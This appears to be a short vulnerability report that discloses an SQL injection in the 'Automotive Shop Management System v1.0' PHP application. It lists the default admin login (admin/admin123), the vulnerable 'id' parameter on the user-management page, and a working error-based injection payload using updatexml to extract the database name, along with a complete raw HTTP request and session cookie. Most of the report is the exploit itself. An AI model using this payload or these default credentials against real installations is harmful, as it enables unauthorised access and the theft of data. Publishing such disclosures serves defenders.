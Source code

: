 # Automotive Shop Management System v1.0 by oretnom23 has SQL injection

BUG_Author: acvxd

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /asms/admin/?page=user/manage_user&id=

Vulnerability location: /asms/admin/?page=user/manage_user&id=, id

dbname =asms_db,length=7

[+] Payload: /asms/admin/?page=user/manage_user&id=3%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /asms/admin/?page=user/manage_user&id=3%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0bfse7548hblm5lblclp48r057; dou_member_id=1; dou_member_code=3a2d7d2301afce4cf127
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/198029277-495b3651-07dc-4a5b-b7c9-f45249ad75ae.png)
